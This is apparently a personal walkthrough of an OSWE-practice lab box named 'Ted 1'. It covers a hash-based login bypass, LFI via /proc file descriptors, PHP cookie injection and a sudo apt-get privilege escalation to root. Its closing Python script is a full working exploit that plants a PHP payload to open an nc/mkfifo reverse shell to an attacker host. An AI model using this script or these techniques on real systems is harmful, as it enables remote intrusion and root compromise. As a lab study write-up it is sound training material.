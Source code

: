 # Ted 1

## Nmap
````
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-28 12:44 WEST
Nmap scan report for 10.0.2.35
Host is up (0.00042s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Login
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.71 seconds
````

## Port 80

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/3ec8efbd-65df-48b3-a38f-c494d515c141)


So, the user 'test' shows the following response

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/d7749911-be73-4100-9ce8-5d7a7de814de)

While 'admin' says this

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/08a8661f-73c7-4d1e-b122-3e5af905d5ca)

We know it's a PHP website. There's a neat trick to find this out. If you are on the homepage, try different extensions for index - /index.php, /index.html and so on.
This wasn't required here due to the login request endpoint having the .php extension

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/f0f554c9-c0a9-4b73-8cfe-b7c0ad4f1eb3)

Admin with a random passwords throws the error
``Password or password hash is not correct, make sure to hash it before submit.``

admin : admin gets the following response

``Password hash is not correct, make sure to hash it before submit.``

I tried to guess a bunch of extra parameters (hash, passwordhash, etc...) but without any luck. I then tried a bunch of hashes of the word 'admin' in the password parameter and I finally got something with SHA-256

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/3e625f20-6132-44d4-8a23-9a5615decd39)

Logged in through the front end, and we're in!

## Simple File Browser

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/63663dc8-b89a-49cb-b13e-cc0da4cda553)

LFI + Path Traversal, nice. We know there's a user 'ted' in the box

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/ea3d6f01-5a68-443e-b18f-ba144270b108)


Including the file /proc/self/stat we can find the PID of the current apache process

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/5f0a2ff1-4201-4e7d-aee1-0927106c1d6f)


Through a bit of brute force we found the file descriptor 12 with the cookies content

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/fbce5513-efab-4667-85f5-3c5a7e6235b4)

Now we should inject code in the cookie and brute force the FD again until it's executed on the page (it's constantly changing)

It's painful to keep checking the PID and then brute forcing the FD, there's a time gap that doesn't make this easy. So let's build a script


## Reverse Shell


My regex is not the best, so I came up with this compilation of string.splits to find what I wanted. Here's the code

````
import requests, re


for i in range(0,500):
        # Request with cookies (and test user_pref)
        r = requests.post('http://10.0.2.35/home.php', data={'search':'search=../../../../..../../../../../proc/self/stat'}, cookies = {'PHPSESSID':'1fv378fppsm2rb8s16u8q8nfh4', 'user_pref':'TESTING+INSECURE+DESERIALIZATION'})

        # get PID
        pid = r.text.split(' (apache2)')[0][-4:]

        # loop through the FDs with the just found PID
        r = requests.post('http://10.0.2.35/home.php', data={'search':'search=../../../../..../../../../../proc/'+pid+'/fd/'+str(i)}, cookies = {'PHPSESSID':'1fv378fppsm2rb8s16u8q8nfh4'})

        # if the reponse is slightly larger than usual, grep the deserialized cookie
        if len(r.text) > 1110:
                toPrint = r.text.split('<br><br><br><br><br><br><br><br>')[1].split('</div>')[0]
                print(toPrint)
````

For some reason it doesn't find the file everytime, maybe 0 to 500 FDs isn't enough. Anyway, here's an example of the output:

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/2ccfce4d-6325-4b1f-a808-4e3f8117065c)

This is an insecure PHP object deserialization. I tweaked the payload so the value of the cookie would be the first argument when calling the program from the command line

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/5be16d46-5e2e-42d7-be68-df3761fa818b)

And we got RCE! I am super proud of this since I don't typically build this kind of script. Took me a bit, but IT'S WORKING! :D

Now to the easy part, run it with a reverse shell and wait for the call back

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/ca49e8fc-24cc-4c9f-b599-9b9f43bb675d)



## Privilege Escalation


This should be an easy win

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/f75d502f-0f11-4cc3-bfe1-ee0f26f8835b)

From GTFOBins

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/9e3ba53c-faf4-4b53-b77e-1d395e28c0fb)


````
www-data@ubuntu:/tmp$ sudo /usr/bin/apt-get changelog apt
Get:1 http://changelogs.ubuntu.com apt 1.2.32 Changelog [411 kB]
Fetched 411 kB in 0s (645 kB/s)
WARNING: terminal is not fully functional
/tmp/apt-changelog-01J2rB/apt.changelog  (press RETURN)
apt (1.2.32) xenial; urgency=medium

  * Add test case for local-only packages pinned to never
  * Prevent shutdown while running dpkg (LP: #1820886)
  * Add linux-{buildinfo,image-unsigned,source} versioned kernel pkgs
    (LP: #1821640)

 -- Julian Andres Klode <juliank@ubuntu.com>  Tue, 07 May 2019 12:57:03 +0200

apt (1.2.31) xenial; urgency=medium

  * Fix name of APT::Update::Post-Invoke-Stats (was ...Update-Post...)
  * apt.dirs: Install auth.conf.d directory (LP: #1818996)
/tmp/apt-changelog-01J2rB/apt.changelog
  * Merge translations from 1.6.10 (via 1.4.y branch)
:

:!/bin/bash
!/bin/bash
root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/tmp#
````

Honestly I am okay with these boxes having an easier privesc. The first part of them are usually close to what I am expecting of the OSWE, but there isn't a local privilege escalation step like this in the exam, so that's okay by me.

One of my favorite boxes so far. Again, I'm super happy with the script I built :)

___

I'm back once again. I see I was super proud of that script, and today after looking at it I can confidently say it sucks :D If this happens, it means I'm improving, so no biggie.
I'll probably look back at this new full version and still think it's bad. Anyway, here it is

````
import sys, requests, re

def main():
	# Log in as admin
	session = requests.Session()
	session.cookies["user_pref"] = 'y'
	url = server + "/authenticate.php"
	data = {"username":"admin", "password":"8C6976E5B5410415BDE908BD4DEE15DFB167A9C873FC4BB8A81F6F2AB448A918"}

	r = session.post(url, data=data)

	# Search for current PID
	url = server + "/home.php"
	data = {"search":"../../../../../../proc/self/stat"}

	r = session.post(url, data=data)

	# Save self PID
	pid = re.findall(r"(\d+)(?=\s\(apache2\))", r.text)[0]

	# Iterate over FDs to find where our cookie is injected
	for i in range(1,22):
		session.cookies["user_pref"] = '<%3fphp+system("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/bash+-i+2>%261|nc+{}+{}+>/tmp/f")+%3f>'.format(attacker, port)
		data = {"search" : "../../../../../../../../proc/{}/fd/{}".format(pid,i)}
		r = session.post(url, data=data)
		if "user_pref" in r.text:
			r = session.post(url, data=data)
			print(r.text)
			print("PID: {}, FD: {}".format(pid, i))
			sys.exit()

if __name__ == '__main__':
	try:
		server = sys.argv[1].strip()
		attacker = sys.argv[2].strip()
		port = sys.argv[3].strip()
	except:
		print("[-] Usage: %s serverIP:port attackerIP port!" % sys.argv[0], sys.argv[3])
		sys.exit()
	print("Don't forget to open the listener on port {}!".format(port))
	main()
````
